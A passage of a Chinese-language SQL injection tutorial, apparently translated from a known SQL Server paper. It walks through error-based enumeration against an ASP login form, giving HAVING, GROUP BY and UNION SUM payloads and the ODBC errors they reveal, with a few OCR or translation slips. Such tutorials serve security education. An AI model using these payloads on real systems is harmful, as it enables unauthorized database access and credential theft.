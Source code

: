 )

然后将下面的用户插入到users表中：

Insert into users values(0,&amp;apos;admin&amp;apos;,&amp;apos;r00tr0x!&amp;apos;,0xffff)

Insert into users values(0,&amp;apos;guest&amp;apos;,&amp;apos;guest&amp;apos;,0x0000)

Insert into users values(0,&amp;apos;chris&amp;apos;,&amp;apos;password&amp;apos;,0x00ff)

Insert into users values(0,&amp;apos;fred&amp;apos;,&amp;apos;sesame&amp;apos;,0x00ff)

如果我们的攻击者想插入一个自己的用户。在不知道users表结构的情况下，他不可能成功。即使他比较幸运，至于privs字段不清楚。攻击者可能插入一个&amp;apos;1&amp;apos;，这样只给他自己一个低权限的用户。

幸运地，如果从应用程序（默认为ASP行为）返回错误消息，那么攻击者可以确定整个数据库的结构，并且可以以程序中连接SQLSERVER的权限度曲任何值。

（下面以一个简单的数据库和asp脚本来举例说明他们是怎么工作的）

首先，攻击者想获得建立用户的表的名字和字段的名字，要做这些，攻击者需要使用select语法的having子句：

Username：&amp;apos; having 1=1-

这样将会出现如下错误：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Column &amp;apos;users.id&amp;apos; is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause.

/process_login.asp, line 35

因此现在攻击者知道了表的名字和第一个地段的名字。他们仍然可以通过把字段放到group by子句只能感去找到一个一个字段名，如下：

Username：&amp;apos; group by users.id having 1=1-

出现的错误如下：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Column &amp;apos;users.username&amp;apos; is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.

/process_login.asp, line 35

最终攻击者得到了username字段后：

&amp;apos; group by users.id,users.username,users.password,users.privs having 1=1-

这句话并不产生错误，相当于：

select * from users where username=&amp;apos;&amp;apos;

因此攻击者现在知道查询涉及users表，按顺序使用列&amp;apos;id,username,password,privs&amp;apos;。

能够确定每个列的类型是非常有用的。这可以通过使用类型转化来实现，例如：

Username：&amp;apos; union select sum(username) from users-

这利用了SQLSERVER在确定两个结果集的字段是否相等前应用sum子句。尝试去计算sum会得到以下消息：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument.
